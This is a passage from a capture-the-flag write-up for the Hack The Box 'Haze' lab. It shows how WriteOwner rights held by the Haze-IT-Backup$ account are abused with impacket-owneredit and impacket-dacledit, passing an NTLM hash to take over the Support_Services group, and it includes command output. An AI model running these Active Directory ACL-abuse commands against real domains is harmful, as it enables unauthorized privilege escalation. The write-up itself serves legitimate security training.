 #### Support_Services

BloodHound shows that `Haze-IT-Backup$` has `WriteOwner` rights on the `Support_Services` group object.
Clicking on `Linux Abuse` shows exactly how to exploit this right from Linux.

![](images/Pasted%20image%2020250628110659.png)

First `impacket-owneredit` was used to make `Haze-IT-Backup$` the owner of the `Support_Services` group.
```
fcoomans@kali:~/htb/haze$ impacket-owneredit -hashes :4de830d1d58c14e241aff55f82ecdba1 -dc-ip dc01.haze.htb -new-owner 'Haze-IT-Backup$' -target 'Support_Services' -action write 'HAZE/Haze-IT-Backup$'
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies

[*] Current owner information below
[*] - SID: S-1-5-21-323145914-28650650-2368316563-512
[*] - sAMAccountName: Domain Admins
[*] - distinguishedName: CN=Domain Admins,CN=Users,DC=haze,DC=htb
[*] OwnerSid modified successfully!
```

Then `impacket-dacledit` was used to give `Haze-IT-Backup$` full rights over the `Support_Services` group.
```
fcoomans@kali:~/htb/haze$ impacket-dacledit -hashes :4de830d1d58c14e241aff55f82ecdba1 -dc-ip dc01.haze.htb -principal 'Haze-IT-Backup$' -target 'Support_Services' -action write 'HAZE/Haze-IT-Backup$'
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies

[*] DACL backed up to dacledit-20250628-190316.bak
[*] DACL modified successfully!
```
